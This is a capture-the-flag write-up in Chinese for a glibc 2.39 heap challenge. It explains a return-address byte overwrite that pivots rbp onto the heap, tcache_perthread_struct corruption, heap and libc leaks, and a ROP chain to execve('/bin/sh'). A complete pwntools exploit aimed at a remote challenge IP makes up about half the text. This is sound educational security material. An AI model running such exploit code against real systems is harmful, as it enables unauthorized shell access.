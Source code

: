 # heack

> Just came back again.

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

看上一题的flag，很明显非预期了，很快啊，revenge就端上来了。这次`fight_dragon`只能调用一次了，
而且严格限制了索引的范围，只能修改到返回地址，不能构造rop链了。第一眼看到的是`note_system`
里在`read`返回小于等于0时，只free没清空，可以UAF，但是经多种尝试无法实现。
其次让人在意的就是`game`中让人觉得奇怪的两个数字了。

![weird numbers](assets/weird.png)

乍一看作者在整烂活，搞两个数字只为异或出一个日期（20250712），还把 *Date* 写成了
*Data*，但是结合上一题flag的提示，不难发现其中存在一个`0x5d`，即`pop rbp`，
如果我们尝试从这里开始执行就会得到：

![truncated code](assets/trunc_code.png)

观察此时的rsp，如果我们已经分配过一个堆块，并且放在堆块数组`bufs`中的第0个，
那么`pop rbp`就会将这个 *chunk 0* 的地址pop给rbp，由于`game`函数访问数据是基于rbp的，
因此接下来game的操作会影响到`tcache_perthread_struct`。

![tcache_perthread_struct](assets/tcache_chunk.png)

经过计算，`bufs[0]`~`bufs[15]`对应了0x2e0~0x3d0的堆块的`tcache_entry`，
`[Combat Power]`对应了0x3f0的堆块的`tcache_entry`(`[HP]`和`[Attack]`未使用，可类推)，
如果我们释放对应大小的堆块，我们就可以通过view等方式访问堆块，
或者使用status等查看entry上放的值。

我这里首先分配并释放一个小堆块，使释放后的堆块正好被放入`bufs[0]`，
这样就可以使用view来泄露堆基址（当然，使其被放入`[HP]`等也是可以的）。

要想泄露libc则没这么简单，因为我们不能对释放后的块写入。于是可以借助提升hp、
提升攻击力这样的方式，借提高power的机会，修改tcache_entry。
先后分配chunk 2 (`0x3f0`)和chunk 3 (`>0x500`，稍后用来释放泄露libc)，2在3的低处，
然后将2释放使其进入`[Combat Power]`对应的entry，接着将指针抬高到chunk 3，
此时entry和chunk 3指向同一个地址。再申请chunk 5 (`0x3f0`) 后释放chunk 3，
这样我们就在保留对chunk 3的访问的情况下将其释放，进入unsorted bin。最后打印chunk
5就可以泄露。

由于我们已经劫持rbp到堆上，且`note_system`和`game`在返回时都会`leave; ret`，
不难想到，退出时会做栈迁移，可以在堆上打rop。有了以上的数据，我们就能构造链子，
最后的问题就是如何将链子写到最开始的chunk 0。由于提升hp、攻击力都是做加法，
因此我们必须伪造一个堆块，构成一条假的tcache链，使我们能分配到chunk 0。
首先分配chunk 6和chunk 7，然后释放，此时在entry上就会变成`7 -> 6 -> NULL`的链子，
我们预先在chunk 7上写上chunk 0的加密后的指针，这样在使用提升hp、攻击力后，
可以将entry变成`7+ -> 0 -> ?`的链子。此时连续分配两次，
我们就重新获得了对chunk 0的控制权限，可以写入rop链了。最后的最后，退出拿shell。

> [!IMPORTANT]
> 在设置chunk 7的时候，注意到我使用了`ljust(0x30, b'\0')`，之所以要多留一些字节，
> 最主要是因为在分配chunk后会`memset(chunk, 0, malloc_usable_size(chunk))`，
> 查阅`malloc_usable_size`的[源码](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L5234)，
> 当chunk没有mmap位，那么会检查它是否正在被使用。为了检查chunk是否正在被使用，
> 需要先提取出其大小，然后检查`chunk + sizeof(chunk)`处chunk的inuse位。
> 如果没有设置好chunk的大小，那么就会导致访问一个堆以外的chunk而引发`SIGSEGV`。
> 将size设置为0是最简单的办法，可以通过检查并使函数返回0。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './revenge'

def payload(lo: int) -> int:
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.95.34.119', 19999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    def game_arbwrite(chain: bytes):
        t.sendlineafter(b'=== Hero', b'1')
        t.sendlineafter(b'[Battle]', p8(0x37).rjust(0x24, b'\0') + chain)

    def game_attack(): t.sendlineafter(b'=== Hero', b'2')
    def game_hp(): t.sendlineafter(b'=== Hero', b'3')
    def game_note(): t.sendlineafter(b'=== Hero', b'5')
    def game_exit(): t.sendlineafter(b'=== Hero', b'6')

    def note_write(idx: int, size: int, mem: bytes):
        t.sendlineafter(b'During your grueling', b'1')
        t.sendafter(b'index', str(idx).encode())
        t.sendafter(b'size', str(size).encode())
        t.sendafter(b'content', mem)

    def note_destroy(idx: int):
        t.sendlineafter(b'During your grueling', b'2')
        t.sendafter(b'index', str(idx).encode())

    def note_view(idx: int) -> bytes:
        t.sendlineafter(b'During your grueling', b'3')
        t.sendafter(b'index', str(idx).encode())
        t.recvuntil(b' ---\n')
        return t.recvuntil(b'\n-----------', True)

    def note_exit(): t.sendlineafter(b'During your grueling', b'4')

    # bufs[0]  <=> tcache(0x2e0)
    # bufs[15] <=> tcache(0x3d0)
    game_note()
    note_write(0, 7, b'pivot!')
    note_exit()
    # truncate   mov DWORD PTR [rbp-0x14],0x1f0f5d   @ 0x1867
    # to         pop rbp; nop DWORD PTR [rax]        @ 0x186a
    game_arbwrite(p8(0x6a))
    # now rbp == chunk 0
    game_note()

    def PTR_PROTECT(pos: int, ptr: int) -> int: return (pos >> 12) ^ ptr
    note_write(1, 0x2d7, b'shall not to conflict with 0x2e0 chunk')
    note_destroy(1) # now the freed chunk is put in bufs[0]
    heap_base = u64(note_view(0) + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heap_base: {heap_base:#x}'))

    note_write(2, 0x3e7, b'this will fall into [Combat Power]')
    note_write(3, 0x507, p64(PTR_PROTECT(heap_base + 0x980, 0)))
    note_write(4, 7, b'work as guard')
    note_destroy(2) # put chunk 2 in tcache entry
    note_exit()
    # add tcache entry by 0x3f0 (now pointing at chunk 3)
    for _ in range(3):
        game_hp()
    for _ in range(15):
        game_attack()

    game_note()
    note_write(5, 0x3e7, b'take the corrupted chunk 3 back to overlap')
    # now chunk 5 (0x3f0) == chunk 3 (0x510)
    note_destroy(3)
    libc_base = u64(note_view(5) + b'\0\0') - 96 - 0x203ac0 # main_arena
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    note_write(6, 0x3e7, b'padding chunk to construct a chain')
    # NOTE: to bypass malloc_usable_size, the fake chunk should have size 0
    # link tcache to chunk 0
    note_write(7, 0x3e7, b'hijacking tcache chain...'.ljust(0x30, b'\0') + \
                         p64(PTR_PROTECT(heap_base + 0xec0, heap_base + 0x2a0)))
    note_destroy(6)
    note_destroy(7)
    note_exit()
    # add tcache entry by 0x30 (now pointing at fake chunk)
    for _ in range(3):
        game_attack()
    game_note()

    gadgets = ROP(libc)
    rdi = gadgets.rdi.address
    rsi = gadgets.rsi.address
    rdx = libc_base + 0xb5db0 # xor edx, edx; mov eax, edx; ret
    shstr = next(libc.search(b'/bin/sh'))
    chain = flat(rdi, shstr, rsi, 0, rdx, libc.symbols['execve'])

    note_write(8, 0x3e7, b'this will write chunk 0 to tcache entry')
    note_write(9, 0x3e7, p64(0) + chain)
    note_exit()
    game_exit()
    # as we've already hijack rbp to chunk 0, leave 2 times set rsp to chunk 0
    # and then run our rop chain

    t.clean(0.5)
    t.interactive()
    t.close()
```

![flag](assets/revenge_flag.png)
